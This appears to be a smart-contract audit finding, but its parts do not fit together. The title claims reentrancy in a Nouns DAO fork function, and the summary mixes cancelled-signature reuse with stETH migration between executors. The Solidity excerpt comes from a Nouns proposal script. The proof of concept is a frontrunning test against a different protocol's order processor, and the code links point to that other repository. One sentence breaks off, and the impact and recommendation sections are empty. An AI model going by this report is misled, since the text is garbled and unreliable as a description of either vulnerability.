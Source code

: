 # Reentrancy possiblities in `NounsDAOV3Fork.sendProRataTreasury`

## Summary
Cancelled signature can be reused to create proposal, thus making cancelling useless.
As NounsDAOExecutorV2 will be newly deployed rather than upgraded, list of queued transactions will not be migrated.
Those transactions will still be executed by NounsDAOExecutorV2 v1.

But all stETH balance will be migrated to new executor by upgrade proposal, chances are already queued transactions to spend stETH will not be executed as there's no stETH left.

## Vulnerability Details
Before executing upgrade proposal, executeTransaction

```solidity
    function propose(
        NounsDAOLogicV1 daoProxy,
        address daoV3Implementation,
        address timelockV2,
        uint256 ethToSendToNewTimelock,
        address erc20Transferer,
        address forkEscrow,
        address forkDeployer,
        address[] memory erc20TokensToIncludeInFork,
        string memory description
    ) internal returns (uint256 proposalId) {
        uint8 numTxs = 10;
        ...

        i++;
        targets[i] = erc20Transferer;
        values[i] = 0;
        signatures[i] = 'transferEntireBalance(address,address)';
        calldatas[i] = abi.encode(STETH_MAINNET, timelockV2);
        ...

```

## Proof of Concept 
```solidity
 function testFrontrunningRequestOrder() public {
        address malicious = address(0x6);
        address victim = user;

        paymentToken.mint(malicious, dummyOrder.quantityIn);
        paymentToken.mint(victim, dummyOrder.quantityIn);

        // 1. Frontrunning malicious's requestOrder - success
        vm.startPrank(malicious);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        issuer.requestOrder(dummyOrder, salt);

        // 2. Victim's requestOrder - failed
        vm.startPrank(victim);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        vm.expectRevert(OrderProcessor.DuplicateOrder.selector);
        issuer.requestOrder(dummyOrder, salt);

        // 3. Then request cancel
        vm.startPrank(malicious);
        issuer.requestCancel(dummyOrder, salt);
    }
```

## Impact

## Code Snippet
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L46C1-L58C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L205C1-L216C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L250C1-L252C74

## Tool used

Manual Review

## Recommendation
